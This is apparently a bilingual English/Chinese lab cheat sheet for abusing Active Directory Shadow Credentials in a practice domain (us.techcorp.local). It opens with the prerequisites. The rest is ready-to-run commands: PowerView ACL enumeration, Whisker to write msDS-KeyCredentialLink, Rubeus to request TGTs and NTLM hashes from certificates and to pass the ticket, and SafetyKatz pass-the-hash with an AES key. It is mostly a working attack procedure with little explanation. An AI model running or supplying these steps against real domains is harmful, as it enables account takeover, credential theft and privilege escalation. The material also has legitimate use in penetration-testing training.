 • Pre-requisites to abuse Shadow Credentials:
- AD CS (Key Trust if AD CS is not present)（AD CS（如果不存在AD CS，则需要密钥信任））
- Support for PKINIT and at least one DC with Windows Server 2016 or above.（支持PKINIT和至少一个Windows Server 2016或以上版本的DC）
- Permissions (GenericWrite/GenericAll) to modify the msDS-KeyCredentialLink attribute of the target object.（有权限（GenericWrite/GenericAll）来修改目标对象的msDS-KeyCredentialLink属性。）

## Abusing User Object（用户对象）

枚举权限
```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```

添加 Shadow凭据
```
Whisker.exe add /target:supportXuser
```

Using PowerView, see if the Shadow Credential is added.
```
Get-DomainUser -Identity supportXuser
```

Request the TGT by leveraging the certificate.
```
Rubeus.exe asktgt /user:supportXuser /certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHAaCCCW.... /password:"1OT0qAom3..." /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /getcredentials /show /nowrap
```
Inject the TGT in the current session or use the NTLM hash
```
Rubeus.exe ptt /ticket:doIGgDCCBnygAwIBBaEDAgEW...
```

## Abusing Computer Object（机器对象）

枚举权限
```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match 'mgmtadmin’}
```
添加 Shadow凭据
```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:mgmtadmin /domain:us.techcorp.local /aes256:32827622ac4357bcb476ed3ae362f9d3e7d27e292eb27519d2b8b419db24c00f /run:cmd.exe" "exit"
```

```
Whisker.exe add /target:us-helpdesk$
```

Using PowerView, see if the Shadow Credential is added.
```
Get-DomainComputer -Identity us-helpdesk
```

Request the TGT by leveraging the certificate.
```
Rubeus.exe asktgt /user:us-helpdesk$ /certificate:MIIJ0AIBAzCCCYwGCSqGSIb... /password:"ViGFoZJa..." /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /getcredentials /show
```
